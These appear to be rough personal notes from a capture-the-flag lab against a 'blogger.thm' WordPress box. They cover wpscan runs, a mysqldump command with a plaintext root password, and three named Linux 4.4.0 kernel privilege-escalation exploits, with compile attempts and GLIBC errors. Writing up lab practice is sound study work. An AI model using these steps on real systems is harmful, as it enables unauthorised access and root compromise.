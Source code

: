 
#### wpscan with this
wpscan --url http://blogger.thm/assets/fonts/blog
wpscan --url http://blogger.thm/assets/fonts/blog/wp-login.php (X)
wpscan for finding additional vulns

ssh


### mysql
mysqldump -u root -p'sup3r_s3cr3t' -P 3306 -h localhost wordpress > sql.dump
  see on the SQL client - dbeaver (import data)
    skip


mariaDB version?  10.0.38-MariaDB 2019
  X



Let's again escalate privilege or find passwords(related wordpress sole user - j@mes) while running linpeas.sh, LinEnum.sh in www-data  
if no result, go back and inspect again.

- Kernel version
Linux kernel version 4.4.0-206-generic 2016
Ubuntu 16.04.7 LTS
there are many privilege escalation 
about 3 privilege escalation
1. Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
gcc .c -o cve-2017-16995
./cve~
  Do I need to compile in the target host?
    yes environment compatibility(arthitecture and library versions), and dependencies(linked particular libraries), and binary format(differnet executable formats) 

2. Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation
  compatibility problem : /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found

3. Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation
gcc chocobo_root.c -o chocobo_root -lpthread
./40871: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./40871)
./40871: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./40871)
./40871: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./40871)


if couldn't on the target, you can do cross-compile. 
  set target arch and OS 

arm-linux-gnueabi-gcc -o exploit exploit.c

- target kernel archtecture and OS arm/ ..
Architecture: x86-64 = amd64
Kernel : Linux 4.4.0-206-generic
OS : Ubuntu 16.04.7 LTS



- kali arch and OS
x86-64
Linux 6.6.15-amd64
Kali GNU/Linux Rolling 
